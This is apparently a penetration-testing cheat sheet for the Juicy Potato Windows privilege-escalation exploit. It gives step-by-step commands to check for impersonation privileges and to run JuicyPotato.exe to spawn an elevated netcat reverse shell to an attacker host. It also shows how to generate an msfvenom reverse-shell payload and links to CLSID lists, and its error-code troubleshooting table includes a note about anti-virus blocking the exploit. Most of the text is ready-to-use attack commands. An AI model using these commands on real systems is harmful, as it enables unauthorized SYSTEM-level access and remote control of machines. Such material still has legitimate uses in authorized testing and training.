 # Juicy Potato

## Check privileges

```
whoami /priv
```

The required privileges are `SeImpersonate` and/or `SeAssignPrimaryToken.` It doesn't matter if their status is disabled.

## Exploiting

Get the script from here: [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)

```
JuicyPotato.exe -l 9999 -p <process> -a "<arguments>" -t * -c '<CLID>'
```

### Elevated reverse shell

Get NC.exe from here: [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

```
JuicyPotato.exe -l 6666 -p <path to nc.exe> -a "-nv <LHOST> <LPORT> -e cmd.exe" -t *
```

### Local payload

```
msfvenom -p windows/<arch>/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f exe > shell.exe
JuicyPotato.exe -l 6666 -p c:\Windows\System32\cmd.exe -t * -a "/c c:\<path to shell.exe>"
```

### List of CLIDS

* [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_7\_Enterprise)
* [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_8.1\_Enterprise)
* [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Enterprise)
* [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Pro)
* [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2008\_R2\_Enterprise)
* [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2012\_Datacenter)
* [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2016\_Standard)

## Troubleshooting

### CreateProcess error codes:

| Code | Meaning            | Comment                                                                                                                              |
| ---- | ------------------ | ------------------------------------------------------------------------------------------------------------------------------------ |
| 2    | File not found     | no executable file is found in the given path, check the .exe name and make sure the file is not corrupt                             |
| 3    | Path not found     | check the path to the executable, avoid using spaces and symbols                                                                     |
| 5    | Access denied      | the current user doesn't have the privileges to invoke this function, may also be caused by anti-virus software blocking the exploit |
| 123  | Invalid name       | avoid using characters such as `',."-#()<>` in the path                                                                              |
| 1314 | Privilege not held | the current user lacks the necessary token to perform this operation                                                                 |

### recv failure:

| Code  | Meaning      | Comment                           |
| ----- | ------------ | --------------------------------- |
| 10038 | Not a socket | Try using another port or service |

